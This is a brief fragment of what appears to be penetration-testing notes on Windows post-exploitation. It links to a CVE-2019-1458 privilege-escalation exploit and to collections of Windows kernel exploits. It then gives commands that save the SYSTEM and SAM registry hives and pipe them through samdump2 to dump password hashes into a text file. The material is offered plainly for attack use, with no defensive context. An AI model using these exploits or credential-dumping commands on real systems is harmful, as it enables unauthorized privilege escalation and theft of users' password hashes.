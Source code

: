 More exploit HERE:
!!Only One Chance!!
https://github.com/unamer/CVE-2019-1458

------
https://github.com/SecWiki/windows-kernel-exploits
https://github.com/abatchy17/WindowsExploits

----
export the registry value
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
samdump2 SystemBkup.hiv SamBkup.hiv > pass.txt